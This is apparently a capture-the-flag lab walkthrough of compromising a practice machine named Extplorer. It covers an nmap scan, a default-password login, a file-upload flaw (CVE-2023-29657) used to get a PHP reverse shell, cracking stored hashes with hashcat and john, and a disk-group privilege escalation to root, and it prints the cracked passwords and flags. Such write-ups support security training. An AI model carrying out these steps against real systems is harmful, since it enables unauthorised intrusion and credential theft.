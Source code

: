 # Extplorer

---

### Host Info Gathering

- We are given an intermediate machine called Extplorer. Perform `nmap` scan over it.
    
    ```bash
    > nmap -sCV -A -Pn -O -p- 192.168.241.16 -oN tcpnmap.md
    
    PORT   STATE SERVICE VERSION
    22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   3072 98:4e:5d:e1:e6:97:29:6f:d9:e0:d4:82:a8:f6:4f:3f (RSA)
    |   256 57:23:57:1f:fd:77:06:be:25:66:61:14:6d:ae:5e:98 (ECDSA)
    |_  256 c7:9b:aa:d5:a6:33:35:91:34:1e:ef:cf:61:a8:30:1c (ED25519)
    80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
    |_http-server-header: Apache/2.4.41 (Ubuntu)
    Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
    Device type: general purpose|router
    Running (JUST GUESSING): Linux 4.X|5.X|2.6.X|3.X (97%), MikroTik RouterOS 7.X (97%)
    OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5 cpe:/o:mikrotik:routeros:7 cpe:/o:linux:linux_kernel:5.6.3 cpe:/o:linux:linux_kernel:2.6 cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:6.0
    Aggressive OS guesses: Linux 4.15 - 5.19 (97%), Linux 5.0 - 5.14 (97%), MikroTik RouterOS 7.2 - 7.5 (Linux 5.6.3) (97%), Linux 2.6.32 - 3.13 (91%), Linux 3.10 - 4.11 (91%), Linux 3.2 - 4.14 (91%), Linux 3.4 - 3.10 (91%), Linux 4.15 (91%), Linux 2.6.32 - 3.10 (91%), Linux 4.19 - 5.15 (91%)
    No exact OS matches for host (test conditions non-ideal).
    Network Distance: 4 hops
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
    ```
    

### Important Info

```bash
extplorer v 2.1.15. # File upload -> reverse_shell.php

/filemanager/config/.htusers.php # User credentials

admin : admin
dora  : doraemon

root : explorer
```

### Initial Foothold

- `port 80` is open with http server. We can visit and it will redirect us to a `WordPress` page.
    
    Use `diresearch` , we can get some interesting directory. The `/filemanager/` path will display a login page for extplorer.
    
    ![image.png](Extplorer%201b0553bebf0f80e78b05dbd9f0a08f96/image.png)
    
    ![image.png](Extplorer%201b0553bebf0f80e78b05dbd9f0a08f96/image%201.png)
    
    ![image.png](Extplorer%201b0553bebf0f80e78b05dbd9f0a08f96/image%202.png)
    

- By trying weak password `admin : admin` , we are able to login to the file manager.
    
    ![image.png](Extplorer%201b0553bebf0f80e78b05dbd9f0a08f96/image%203.png)
    
    From `filemanager/CHANGELOG.txt` , we can see the `extplorer version 2.1.15` . Google related information, we find info says “eXtplorer 2.1.15 is vulnerable to file upload” and get CVE-2023-29657.
    
    - https://github.com/advisories/GHSA-9337-wvr6-wx8x
    
    ![image.png](Extplorer%201b0553bebf0f80e78b05dbd9f0a08f96/image%204.png)
    
- Also, with more enumeration, we found some user credentials under `filemanager/config/.htusers.php` . We can use `hash-identifier` and `hashid` to find their hash types.
    
    ```bash
    admin : 21232f297a57a5a743894a0e4a801fc3
    dora  : $2a$08$zyiNvVoP/UuSMgO2rKDtLuox.vYj.3hZPVYq3i4oG3/CtgET7CjjS
    ```
    
    ![image.png](Extplorer%201b0553bebf0f80e78b05dbd9f0a08f96/image%205.png)
    
    ![image.png](Extplorer%201b0553bebf0f80e78b05dbd9f0a08f96/image%206.png)
    
    ![image.png](Extplorer%201b0553bebf0f80e78b05dbd9f0a08f96/image%207.png)
    

- Use `hashcat` to decrypt two hashes we found.
    
    ```bash
    > echo "21232f297a57a5a743894a0e4a801fc3" > admin.hash
    > hashcat -m 0 admin.hash /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
    
    admin : admin
    
    > echo "$2a$08$zyiNvVoP/UuSMgO2rKDtLuox.vYj.3hZPVYq3i4oG3/CtgET7CjjS" > dora.hash
    > hashcat --help | grep -i "bcrypt"
    > hashcat -m 3200 dora.hash /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
    
    dora : doraemon
    ```
    
    ![image.png](Extplorer%201b0553bebf0f80e78b05dbd9f0a08f96/image%208.png)
    
    ![image.png](Extplorer%201b0553bebf0f80e78b05dbd9f0a08f96/image%209.png)
    
    ![image.png](Extplorer%201b0553bebf0f80e78b05dbd9f0a08f96/image%2010.png)
    

- The CVE-related blog is no longer reachable. We can try to upload our reverse_shell.php to the target and execute it. Listen on Kali and we can get a reverse shell as `www-data` , a low-privilege shell.
    
    ![image.png](Extplorer%201b0553bebf0f80e78b05dbd9f0a08f96/image%2011.png)
    
    ![image.png](Extplorer%201b0553bebf0f80e78b05dbd9f0a08f96/image%2012.png)
    
    ![image.png](Extplorer%201b0553bebf0f80e78b05dbd9f0a08f96/image%2013.png)
    

- We can find `dora` is a user on target machine. With the password we found , we can switch to `dora` . Then find local.txt.
    
    ```bash
    > su dora
    	: doraemon
    	
    - local.txt : 02c994fb16ba84646461e76cea971031
    ```
    

### Privilege Escalation

- Running `linpeas.sh` on target machine, we can find useful information.
    
    ![image.png](Extplorer%201b0553bebf0f80e78b05dbd9f0a08f96/image%2014.png)
    

- Goole “disk group privilege escalation”, we can find this useful information. - https://www.hackingarticles.in/disk-group-privilege-escalation/
    
    Find the disk that we have root privilege, enter debug mode. We can find `root` credential.
    
    ![image.png](Extplorer%201b0553bebf0f80e78b05dbd9f0a08f96/image%2015.png)
    
    ![image.png](Extplorer%201b0553bebf0f80e78b05dbd9f0a08f96/image%2016.png)
    

- Crack `root` password. Then we can switch to `root` with high privilege.
    
    ```bash
    > echo "$6$AIWcIr8PEVxEWgv1$3mFpTQAc9Kzp4BGUQ2sPYYFE/dygqhDiv2Yw.XcU.Q8n1YO05.a/4.D/x4ojQAkPnv/v7Qrw7Ici7.hs0sZiC." > root.hash
    
    # method 1
    > john --wordlist=/usr/share/wordlists/rockyou.txt root.hash
    
    # method 2
    > hashid -> SHA-512 Crypt
    > hashcat --help | grep -i "crypt"
    > hashcat -m 1800 root.hash /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
    
    root : explorer
    
    - proof.txt : 05baa89abd7a0f9a05e257df35b0bc5a
    ```
    
    ![image.png](Extplorer%201b0553bebf0f80e78b05dbd9f0a08f96/image%2017.png)
    
    ![image.png](Extplorer%201b0553bebf0f80e78b05dbd9f0a08f96/image%2018.png)
    
    ![image.png](Extplorer%201b0553bebf0f80e78b05dbd9f0a08f96/image%2019.png)
    

### Reference

- https://github.com/advisories/GHSA-9337-wvr6-wx8x
- https://nvd.nist.gov/vuln/detail/CVE-2023-29657
- https://www.hackingarticles.in/disk-group-privilege-escalation/